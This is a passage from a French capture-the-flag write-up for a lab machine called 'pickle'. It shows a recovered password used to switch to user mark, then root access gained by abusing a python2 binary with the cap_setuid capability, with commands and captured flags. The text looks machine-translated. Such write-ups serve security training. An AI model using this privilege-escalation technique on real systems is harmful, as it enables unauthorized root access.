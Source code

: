Et si nous courons, nous voyons que nous avons un mot de passe de marque.

    # python reset.py 
    SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== # Mark's password 
    
    lucas@pickle:/opt/project$ su - mark 
    Password: SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== 
    mark@pickle:~$ cat user.txt 
    e25fd1[...SNIP...] 

# Mark > Root 

La racine n'est pas très compliquée, recherchez simplement les fichiers prenant en charge les fonctionnalités.

    mark@pickle:~$ getcap -r / 2>/dev/null 
    /home/mark/python2 = cap_setuid+ep 
    /usr/bin/ping = cap_net_raw+ep 
    
Il vous suffit d'exécuter python et d'utiliser le module os pour exécuter une commande.

    mark@pickle:~$ /home/mark/python2 
    /home/mark/python2 
    Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
    [GCC 8.3.0] on linux2 
    Type "help", "copyright", "credits" or "license" for more information. 
    >>> import os 
    >>> os.setuid(0) 
    >>> os.system('cat /root/root.txt') 
    os.system('cat /root/root.txt') 
    7a32c9739cc63ed983ae01af2577c01c

